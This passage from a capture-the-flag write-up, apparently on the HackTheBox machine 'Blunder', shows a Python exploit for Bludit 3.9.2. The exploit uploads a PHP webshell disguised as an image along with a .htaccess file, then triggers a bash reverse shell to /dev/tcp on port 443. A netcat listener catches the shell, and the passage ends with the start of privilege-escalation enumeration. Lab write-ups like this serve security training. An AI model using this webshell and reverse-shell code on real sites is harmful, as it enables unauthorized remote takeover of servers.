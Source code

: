 ```
        data = {'tokenCSRF': csrf, 'username': username, 'password': password, 'remember': 'true', 'save': ''})

# Get CSRF to upload images
resp = s.get(f'{url}/admin/new-content/index.php')
csrf = re.findall('\nvar tokenCSRF = "([0-9a-f]{32,})";', resp.text)[0]

# Upload webshell
form_data = {'images[]': ('0xdf.php', '<?php system($_REQUEST["cmd"]); ?>', 'image/png')}
data = {'uuid': 'junk',
        'tokenCSRF': csrf}
s.post(f'{url}/admin/ajax/upload-images', data=data, files=form_data, proxies={'http':'http://127.0.0.1:8080'}, allow_redirects=False)

# Upload .htaccess file
form_data = {'images[]': ('.htaccess', 'RewriteEngine off', 'image/png')}
s.post(f'{url}/admin/ajax/upload-images', data=data, files=form_data, proxies={'http':'http://127.0.0.1:8080'}, allow_redirects=False)

# Trigger Shell
resp = s.get(f'{url}/bl-content/tmp/0xdf.php', params={'cmd':f'bash -c "bash -i >& /dev/tcp/{callback_ip}/443 0>&1"'})

```

### Shell

I can run that and get a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.191.
Ncat: Connection from 10.10.10.191:47374.
bash: cannot set terminal process group (1108): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$

```

## Priv: www-data –> huge

### Enumeration

There’s a couple of users, and I think some intentional false paths in the `shaun` home directory. Eventually I made it back into the `/var/www` directory to look at the web configs. Interesting, there were two versions of Bludit there:

```

www-data@blunder:/var/www$ ls  
bludit-3.10.0a  bludit-3.9.2  html

```
